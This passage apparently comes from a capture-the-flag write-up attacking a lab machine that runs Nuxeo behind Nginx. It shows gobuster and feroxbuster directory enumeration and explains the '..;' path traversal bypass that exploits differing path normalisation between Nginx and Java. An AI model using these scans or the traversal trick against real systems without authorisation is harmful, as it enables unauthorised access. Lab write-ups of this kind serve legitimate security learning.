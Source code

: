 ```bash
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/03 14:12:56 Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 612]
/maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/Maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/con                  (Status: 500) [Size: 494]

===============================================================
2021/12/03 14:15:59 Finished
===============================================================
```

The redirect to `/nuxeo/Maintenance/` is interesting. However, `/nuxeo/Maintenance/` returns a 404. [Nuxeo](https://github.com/nuxeo/nuxeo) is an "open source customizable and extensive content management platform for building business applications."

### Path Traversal

According to the Nuxeo repository, it is primarily written in Java. According to [Orange Tsai's DEFCON 26 talk](https://www.youtube.com/watch?v=28xWcRegncw), Nginx and Java-based web applications normalize paths differently, making it possible to traverse paths in the web application by inserting `..;`.

Since `/maintenance` was the only path that yielded anything useful, discover paths after `/maintenance/..;/`. This yields several paths that 302 redirect back to `/nuxeo/Maintenance/..;/*`, which result in 404s. It yields a successful request to `/maintenance/..;/login.jsp`.

```bash
$ feroxbuster -u 'http://10.129.174.204/maintenance/..;/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -x jsp

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.5.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.174.204/maintenance/..;/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.5.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [jsp]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
401      GET        4l       16w      222c http://10.129.174.204/maintenance/..;/user
302      GET        0l        0w        0c http://10.129.174.204/maintenance/..;/search => /nuxeo/Maintenance/..;/search/
401      GET        4l       16w      222c http://10.129.174.204/maintenance/..;/login
302      GET        0l        0w        0c http://10.129.174.204/maintenance/..;/scripts => /nuxeo/Maintenance/..;/scripts/
302      GET        0l        0w        0c http://10.129.174.204/maintenance/..;/css => /nuxeo/Maintenance/..;/css/
200      GET        0l        0w        0c http://10.129.174.204/maintenance/..;/js
302      GET        0l        0w        0c http://10.129.174.204/maintenance/..;/index.jsp => http://10.129.174.204/nuxeo/nxstartup.faces
```